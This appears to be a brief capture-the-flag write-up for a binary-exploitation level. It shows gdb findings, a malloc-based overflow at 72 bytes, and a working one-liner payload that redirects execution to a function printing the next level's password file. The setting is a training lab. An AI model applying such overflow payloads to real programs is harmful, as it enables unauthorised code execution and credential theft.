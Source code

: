 Soooooooooooooo, by looking at layout in gdb we can see there's `n` and `m` function that exist by are not called in the main part.

`m` function calls puts, witch we can abuse and `n` calls `system("/bin/cat /home/user/level7/.pass")`.

Now we just need to somewhat exploit the main function to call `m` to overflow to call `n` ?

in the main function:
```
   0x08048485 <+9>:     movl   $0x40,(%esp)
```

This means 0x40 (64) bit will me malloc and the binary will copy whatever we but in argv[1].

It will eventually segfault at 72 char in argv[1]. So we can maybe strait up exploit this segfault to call `n` ?

72 * 'a' + '\x54\x84\x04\x08'

`./level6 $(python -c "print('a' * 72 + '\x54\x84\x04\x08')")`